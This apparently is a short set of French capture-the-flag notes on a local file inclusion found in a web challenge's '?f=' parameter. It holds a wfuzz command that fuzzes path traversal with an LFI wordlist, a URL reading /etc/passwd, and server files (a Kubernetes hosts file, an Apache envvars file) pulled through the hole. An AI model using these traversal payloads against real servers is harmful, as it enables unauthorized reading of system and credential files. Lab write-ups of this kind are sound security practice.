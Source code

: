 wfuzz -c --hw 3736 -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt http://138.68.151.248:31012/?f=../../../../../../../FUZZ

Il y a une LFI ici : http://138.68.178.56:31681/?f=../../../../../../..//etc/passwd ( reponse dans le code source (CTRL+U) )
et j'ai trouver une erreur chelou ici : http://138.68.178.56:31681/?f=../send.php ( il faut  scroll down)

```
Kubernetes-managed hosts file.
127.0.0.1    localhost
::1    localhost ip6-localhost ip6-loopback
fe00::0    ip6-localnet
fe00::0    ip6-mcastprefix
fe00::1    ip6-allnodes
fe00::2    ip6-allrouters
10.244.20.193    webcaextortion-5797-847486786c-hfd9w
```

```
# envvars - default environment variables for apache2ctl

# this won't be correct after changing uid
unset HOME

# for supporting multiple apache2 instances
if [ "${APACHE_CONFDIR##/etc/apache2-}" != "${APACHE_CONFDIR}" ] ; then
    SUFFIX="-${APACHE_CONFDIR##/etc/apache2-}"
else
    SUFFIX=
fi

# Since there is no sane way to get the parsed apache2 config in scripts, some
# settings are defined via environment variables and then used in apache2ctl,
# /etc/init.d/apache2, /etc/logrotate.d/apache2, etc.
: ${APACHE_RUN_USER:=www-data}
export APACHE_RUN_USER
: ${APACHE_RUN_GROUP:=www-data}
export APACHE_RUN_GROUP
# temporary state file location. This might be changed to /run in Wheezy+1
: ${APACHE_PID_FILE:=/var/run/apache2$SUFFIX/apache2.pid}
export APACHE_PID_FILE
: ${APACHE_RUN_DIR:=/var/run/apache2$SUFFIX}
export APACHE_RUN_DIR
: ${APACHE_LOCK_DIR:=/var/lock/apache2$SUFFIX}
export APACHE_LOCK_DIR
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
: ${APACHE_LOG_DIR:=/var/log/apache2$SUFFIX}
export APACHE_LOG_DIR

## The locale used by some modules like mod_dav
: ${LANG:=C}
export LANG
## Uncomment the following line to use the system default locale instead:
#. /etc/default/locale

export LANG

## The command to get the status for 'apache2ctl status'.
## Some packages providing 'www-browser' need '--dump' instead of '-dump'.
#export APACHE_LYNX='www-browser -dump'

## If you need a higher file descriptor limit, uncomment and adjust the
## following line (default is 8192):
#APACHE_ULIMIT_MAX_FILES='ulimit -n 65536'

## If you would like to pass arguments to the web server, add them below
## to the APACHE_ARGUMENTS environment.
#export APACHE_ARGUMENTS=''

## Enable the debug mode for maintainer scripts.
## This will produce a verbose output on package installations of web server modules and web application
## installations which interact with Apache
#export APACHE2_MAINTSCRIPT_DEBUG=1
"), /*#__PURE__*/
```